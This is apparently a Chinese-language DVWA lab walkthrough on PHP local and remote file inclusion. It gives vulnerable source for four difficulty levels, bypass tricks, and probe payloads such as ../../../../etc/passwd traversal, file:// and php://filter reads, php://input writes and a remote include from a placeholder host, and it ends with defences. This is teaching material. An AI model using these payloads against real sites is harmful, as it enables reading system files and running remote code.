 # 文件包含漏洞
## 漏洞描述
程序开发人员通常会把可重复使用的函数写到单个文件中，在使用某些函数时，直接调用此文件，无需再次编写，这种调用文件的过程一般被称为文件包含。 这可以使攻击者利用查看一些文件进行访问。通过PHP函数引入文件时，传入的文件名没有经过合理的验证，从而操作了预想之外的文件，就可能导致意外的文件泄漏甚至恶意代码注入。
## 漏洞分类
- 本地文件包含：
当被包含的文件在服务器本地时，就形成的本地文件包含漏洞。
- 远程文件包含：
本地文件包含和远程文件包含造成漏洞的原因是一样的，当php.ini 中的配置选项allow_url_fopen和allow_url_include为ON的话，则包含的文件可以是第三方服务器中的文件，这样就形成了远程文件包含漏洞。
## 漏洞利用
## Low File Inclusion Source
源码
```
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?> 
```
这段代码直接接受get请求，没有做任何限制。我们进行抓包对请求进行修改
![image](https://user-images.githubusercontent.com/71583369/144069974-0acb3690-9263-4d42-bd71-ffdc81d9fddb.png)
#
将page处修改我们获取到了/etc/passwd中的内容。存在本地文件包含，再测试看下是否存在远程文件包含；将page修改为一个可以访问到站点后接文件名，如图
![image](https://user-images.githubusercontent.com/71583369/144072913-a6b42e0f-482c-445d-9e5d-4317a13c80f6.png)
#
成功执行了代码。文件包含有个特性就是会把引用的文件内容输入出来，如果文件中存在php代码会以php代码的文件来执行。
#
其他方法：
- 使用php封装协议读取和写入php文件
1. 读取文件：php://filter/read=convert.base64-encode/resource=..././..././..././..././1.txt 访问,可以看到显示了base64编码的内容，获取到的base64编码可以解码从而查看到。
2. 写入文件：php：//input，如图
![image](https://user-images.githubusercontent.com/71583369/144077202-967615b5-3f19-4b92-8c3f-b1fd3f3f5470.png)
## Medium File Inclusion Source
源码
```
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );

?> 
```
这段代码加入了`str_replace()`函数将部门字符转成空字符，黑名单可以绕过，可以使用双写绕过或不在黑名单中的方法。
## High File Inclusion Source
源码
```
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?>
```
这段代码中判断变量不带file并且file不等于include.php就会报错，两个条件只要不满足其中一条即可绕过。可以采用file协议绕过
![image](https://user-images.githubusercontent.com/71583369/144080042-90020a6f-b98b-4931-892f-ce7f1daa55d4.png)
## Impossible File Inclusion Source
源码
```
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```
这段代码直接写死了，必须是它规定的文件名才可以包含。彻底杜绝文件包含漏洞
## 漏洞产生的原因
随着网站业务的需求，程序开发人员一般希望代码更灵活，所以将被包含的文件设置为变量，用来进行动态调用，但是正是这种灵活性通过动态变，用户对这个变量可控而且服务端又没有做。 
## 漏洞检测方法
- ?file=../../../../etc/passwd 
- ?page=file:///etc/passwd 
- ?home=main.cgi
- ?page=http://www.a.com/1.php 
- http://1.1.1.1/../../../../dir/file.txt
## 漏洞防护措施
- 禁用不必要的函数
- 过滤./ ../
- 使用正则或者stristr过滤伪协议
### 其他参考链接
https://my.oschina.net/u/4610683/blog/4834189




